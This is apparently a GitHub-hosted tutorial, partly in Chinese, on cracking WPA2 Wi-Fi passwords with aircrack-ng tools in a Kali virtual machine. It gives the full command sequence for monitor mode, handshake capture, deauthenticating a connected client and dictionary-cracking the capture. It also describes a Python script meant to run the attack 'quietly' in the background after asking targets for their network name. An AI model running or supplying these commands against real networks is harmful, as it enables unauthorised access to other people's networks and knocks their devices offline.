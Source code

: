 # wifi: what's cracking?

> see [HackMD](https://hackmd.io/WEyS9iLSRje7boteEW4bWg)

## For Connection: network configuration


When pluging the usb device in, this window will pop up. Choose `Connect to Virtual machine` > select your destination device.

![圖片](https://hackmd.io/_uploads/HyYE0AqXyx.png)

`OK`
![圖片](https://hackmd.io/_uploads/ByDQCC5myx.png)

To check the device has already been connected, run `iwconfig` and you must see the device.
![圖片](https://hackmd.io/_uploads/BJgmRA971l.png)

If you see the device by running `lsusb` but don't see it appears at `iwconfig`, again, do the steps above, or check the network settings below. And if you did them several times but still don't see the device, restart the virtual machine.

Here is the connection settings.
`Tabs` >
![圖片](https://hackmd.io/_uploads/rympRA9Xyl.png)

`Edit` > `Virtual Network Editor`
No need to bridge
![圖片](https://hackmd.io/_uploads/r1UOR0qmyl.png)

`VM` > `Settings` > `Network Adapter`
Usually the pluging usb is `VMnet0`
![圖片](https://hackmd.io/_uploads/H1qeJko7Jx.png)


And the setting process is done. Go enjoy your cracking!

## Crack a wifi password: using commands

### Start Monitor Mode

Open monitor mode for the network adaptor is necessary. Here's several commands:

```bash=
ifconfig wlan0 down
```

If you run this, get no networks is normal.
```bash=2
airmon-ng check kill
```


```bash=3
iwconfig wlan0 mode monitor
```
If you see this, ignore it.
![圖片](https://hackmd.io/_uploads/S1VqYys71e.png)

```bash=4
ifconfig wlan0 up
airmon-ng start wlan0
```

To test if monitor mode really on, and ready for injection:
```bash=6
aireplay-ng --test wlan0
```
This is a success response: Injection is working!
![圖片](https://hackmd.io/_uploads/ryDatyj71g.png)

### Turn off monitor mode and recorvery neworks

```bash=
airmon-ng stop wlan0
ifconfig wlan0 down
```
Cause you've killed network manager, you don't have network connection. To recorver it, run:
```bash=3
service NetworkManager restart
```

### Crack a password

#### 1. get the target BSSID

For ex, the target has name `alEx`.
```
airodump-ng --essid alEx wlan0
```
You'll see the `BSSID` at the top left. `Ctrl+C` to interrupt it and copy the address: `62:2D:E9:E6:8A:47`
![圖片](https://hackmd.io/_uploads/rkRyAJjQJl.png)

#### 2. get stations' mac address that connected to the target
```
airodump-ng --bssid 62:2D:E9:E6:8A:47 -c 1 -w /home/kali/Desktop/nets/test1 wlan0
```

And files will store at `/home/kali/Desktop/nets/` with preffix `test1`.

Wait for 5 to 30 seconds, their should be an address (or addresses) below `STATION`.
By the way, the channel `CH` should stay at `1`.
![圖片](https://hackmd.io/_uploads/S1SbGesQke.png)

#### 3. get ACK

Open **ANOTHER** terminal, and the command above should stay running.
```
aireplay-ng -0 20 -a 62:2D:E9:E6:8A:47 -c 50:C2:E8:0B:44:55 wlan0
```

#### 4. EXPLOSION!!

Check the ACK you just get, the file name extension is `.cap`. And usually the latest one has the biggest number.
![圖片](https://hackmd.io/_uploads/SJRS_ximyl.png)

And there we go!
```
aircrack-ng -a2 -b 62:2D:E9:E6:8A:47 -w /home/kali/Desktop/passwords/10-million-password-list-top-1000000.txt /home/kali/Desktop/nets/test1*.cap
```

![圖片](https://hackmd.io/_uploads/SJQYkZs7Jx.png)

## Crack a wifi password: with Python scripts

基本上大部分情況都會被處理，如果還是爆開就...用上面的指令打，因為用上面的指令還比較有展示性一點，但如果用 script 就能悄悄的攻擊，兩種不一樣的方式。

所以如果可以的話，先問他們 wifi 名稱，放到 script 裡面讓他背景執行。如果真的不行的話再手動打，現場展示。



基本上會改的部分就是 `target`、`file_path`、`passwordSet_path`。

主要：
* `target`：要攻擊的目標 wifi 名稱。

其他還有像是：
* `file_path`：要儲存的檔案**路徑**。
* `passwordSet_path`：密碼集文字檔的所在地。

![圖片](https://hackmd.io/_uploads/BJkkIEy4Jg.png)

